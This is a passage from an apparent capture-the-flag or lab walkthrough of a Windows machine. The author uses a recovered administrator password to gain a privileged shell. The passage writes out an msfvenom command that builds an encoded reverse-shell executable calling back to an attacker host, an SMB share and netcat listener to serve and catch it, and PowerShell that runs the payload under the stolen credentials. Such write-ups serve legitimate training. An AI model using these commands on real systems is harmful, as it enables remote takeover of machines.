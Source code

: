 Nice! It seems like the password for `administrator` is `Welcome1!`. Use it to get a dedicated reverse shell:

```bash
# run on kali
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=8888 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.root.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 8888
```

Now spawn this reverse shell using the following PowerShell:

```powershell
$p = ConvertTo-SecureString -String 'Welcome1!' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential('Administrator', $p)
Start-Process -FilePath 'cmd' -Credential $c -ArgumentList '/c \\10.10.14.25\BUBBA\bubba.root.exe'
```

And this returns a shell:

![root2](./chatterbox/root2.png)

